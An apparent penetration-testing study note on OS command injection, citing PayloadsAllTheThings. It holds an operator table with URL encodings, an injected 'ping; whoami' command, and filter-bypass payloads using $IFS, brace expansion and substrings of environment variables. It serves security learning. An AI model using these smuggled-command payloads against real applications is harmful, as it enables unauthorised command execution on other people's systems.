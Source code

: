 https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion
# Detection
## Command Injection Methods

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                           |
| ------------------ | ------------------- | --------------------- | ------------------------------------------ |
| Semicolon          | ;                   | %3b                   | Both                                       |
| New Line           | \n                  | %0a                   | Both                                       |
| Background         | &                   | %26                   | Both (second output generally shown first) |
| Pipe               | \|                  | %7c                   | Both (only second output is shown)         |
| AND                | &&                  | %26%26                | Both (only if first succeeds)              |
| OR                 | \|\|                | %7c%7c                | Second (only if first fails)               |
| Sub-Shell          | ``                  | %60%60                | Both (Linux-only)                          |
| Sub-Shell          | $()                 | %24%28%29             | Both (Linux-only)                          |
# Injecting Commands
```bash
ping -c 1 127.0.0.1; whoami
```
## Bypassing Front-End Validation
#### Burp POST Request
![[command-inject-burp-post.png]]
# Bypassing Space Filters
## Bypass Blacklisted Operators
#### Using $IFS
`${IFS}`
`127.0.0.1%0a${IFS}`
#### Using Brace Expansion
```shell
{ls,-la}
```
`127.0.0.1%0a{ls,-la}`
# Bypassing Other Blacklisted Characters
## Linux
```bash
echo ${PATH}
```
`/`
```bash
echo ${PATH:0:1}
```
`;`
```bash
echo ${LS_COLORS:10:1}
```

